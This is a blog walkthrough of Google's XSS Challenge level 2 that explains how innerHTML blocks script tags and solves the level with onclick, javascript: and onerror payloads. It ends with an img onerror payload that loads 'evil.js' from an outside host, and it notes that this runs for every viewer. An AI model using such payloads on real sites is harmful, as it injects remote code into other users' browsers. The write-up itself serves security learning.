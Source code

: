 ```yaml
---
title: 'Cracking Google XSS Challenge L2: Event Handlers'
date: 2022-06-12T10:53:30+05:30
draft: false
tags: ['ctf', 'xss', 'security', 'google xss challenge']
description: "Dive into event handler-based XSS with Google's Level 2 challenge. Learn how user interactions can trigger malicious scripts and bypass simple filters."
image: './cover.png'
---
```


## Prerequisite

Before getting started one should be familiar with XSS or at least have an idea about it. Here is a good article which you may give a read to understand what is XSS. [Read](https://portswigger.net/web-security/cross-site-scripting)!

Also, I assume that readers are at least familiar with JavaScript. If not then I'll suggest to spend some time with JS and get comfortable with the basics. You can refer to [javascript.info](https://javascript.info/) and [MDN](https://developer.mozilla.org/en-US/docs/Web) which are extremely helpful.

> 💡 Also in this whole series we'll not even roll our eyes on **Hints** and **Toggle Code** as in real-world bug hunting no one will give you hints or non-obfuscator source code so you have to figure out things yourself.

## Mission Description

Web applications often keep user data in server-side and, increasingly, client-side databases and later display it to users. No matter where such user-controlled data comes from, it should be handled carefully.

This level shows how easily XSS bugs can be introduced in complex apps.

## Mission Objective

Inject a script to pop up an alert() in the context of the application.

Note: the application saves your posts so if you sneak in code to execute the alert, this level will be solved every time you reload it.

## Breaking In

Our approach will be:

- Trying out a bunch of different inputs and understand how this works.

- Make a payload on the basis of your understanding of the application

So let's start by trying out some random input.

**Input 1**: _Hello_

and yay! our post in **madchattr**. If you refresh the page you can see the post is still there which implies that our input is being stored somewhere.

**Input 2**: `<marquee>Hello</marquee>`

[![xss-level-1-marquee.gif](https://i.postimg.cc/X7TQRJMN/xss-level-1-marquee.gif)](https://postimg.cc/gnHVRGk1)

So we can now say that it also renders the HTML. You know what our next move going to be 😉

**Input 3**: `<script>alert("xss level 2")</script>`

but things didn't go the way we wanted. Nothing gets displayed which is obvious but nothing gets executed as well which forces us to charge up our weapon, THE DEV TOOLS!

![dev tools meme](https://miro.medium.com/max/1284/0%2Aj2xSdGh-CoSe0mck.jpg)

On inspecting the last post we see that the script tag is inside `<blockquote>`.

[![xss-level-2-bq.png](https://i.postimg.cc/kGHfXMBc/xss-level-2-bq.png)](https://postimg.cc/XBwwsbKG)

[![xss-level-2-script-bq.png](https://i.postimg.cc/2Sh2rDmQ/xss-level-2-script-bq.png)](https://postimg.cc/sMfp4bMx)

Does `blockquote` prevent the `script` from executing? I don't think so and after trying it out I'm sure it's not the `blockquote`.

On inspecting the input which is a HTML form we see that `id="post-form"`. Making an assumption, there must be some `eventlistener` which will be listening to the form submission and will be processing its data. Let's search for the `submit` keyword in the developer console.

[![xss-level-2-search.gif](https://i.postimg.cc/QdmSHq9C/xss-level-2-search.gif)](https://postimg.cc/gxw378Kb)

hmm, interesting! so what that script doing is, it's listening for the form submission event and then doing something with the form values i.e our input. It's doing something with `DB.save()`. Let's use a debugger and figure out how the whole process works.

![debugging](https://i.ibb.co/Gd2csYp/ezgif-com-gif-maker.gif)

from debugging we understand the following about the application:

1. It stores post in the browser's local storage (in function `PostDB()`)

2. It renders our input in the webpage using `element.innerHTML` (in function `displayPosts()`)

after a little bit of googling, I found out that `element.innerHTML` prevents script tag from executing.

> If a `<div>`, `<span>`, or `<noembed>` node has a child text node that includes the characters (&), (<), or (>), `innerHTML` returns these characters as the HTML entities `&amp;`, `&lt;` and `&gt;` respectively. Use `Node.textContent` to get a raw copy of these text nodes' contents.
> [Read more](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)

Now that we know who is messing with us, we need to make a payload and we'll be using inline JavaScript.

payload: `<button onclick="alert('xss level 2')">click me</button>`

It is not a script tag so it will be rendered and when the button is clicked, `onclick` comes into play. It executes `alert('xss level 2')` and pops an alert which is what we wanted.

you can try other payloads as well:

- `<a href="javascript: alert('anchor')">click me!</a>`
- `<img src=lol onerror="alert('img tag')" />`

Before ending the post I would like to show how crazy XSS attacks can get. Copy-paste the following and the rest you'll see.

```html
<img src=1 onerror="s=document.createElement('script');s.src='//xss-doc.appspot.com/static/evil.js';document.body.appendChild(s);"
```

what makes it dangerous is that it is being stored in the local storage so even if you refresh the page the script will execute again, not only for you but for all of those who can see the post.

We are not done yet!! We have 4 more levels of Google XSS challenges to complete so head over to the [blog section](http://souvikinator.netlify.app/tags/google-xss-challenge/) and check out walkthroughs.

🥳 So it's time to wrap up the post with a quote

> “I am still learning.” — Michelangelo
